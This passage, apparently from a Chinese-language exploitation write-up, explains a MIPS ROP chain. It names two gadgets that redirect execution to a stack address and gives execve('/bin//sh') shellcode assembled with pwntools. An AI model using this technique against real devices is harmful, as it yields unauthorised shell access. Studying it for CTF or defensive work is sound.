 [![](assets/1705903019-cf859d7830da4809598795eb466638f8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192636-c561e358-b786-1.png)  
这里我们可以控制 fp 指向一个执行 a2 的 gadget，然后在 sp+0x68+var\_10 的位置写 gadget 即可  
这里我们找到了可以去执行 a2 的 gadget

[![](assets/1705903019-79ca75dff0c26330b6f09e70e27e57a6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192646-cbc14a68-b786-1.png)  
所以最后就用这两个 gadget 即可  
0x0043965C | addiu $a2,$sp,0x68+var\_10 | jalr $fp  
0x0040ABB8 | move $t9,$a2 | jalr $a2  
然后我们找一段 gadget 去用既可  
直接生成的太长，从网上找了个

```plain
shellcode = '''
lui $t6,0x6e69
ori $t6,$t6,0x622f
sw $t6,28($sp)

lui $t7,0x6873
ori $t7,$t7,0x2f2f
sw $t7,32($sp)
sw $zero,36($sp) 

la $a0,28($sp)

addiu $a1,$zero,0
addiu $a2,$zero,0
addiu $v0,$zero,4011

syscall 0x40404
'''
shellcode = asm(shellcode)
```
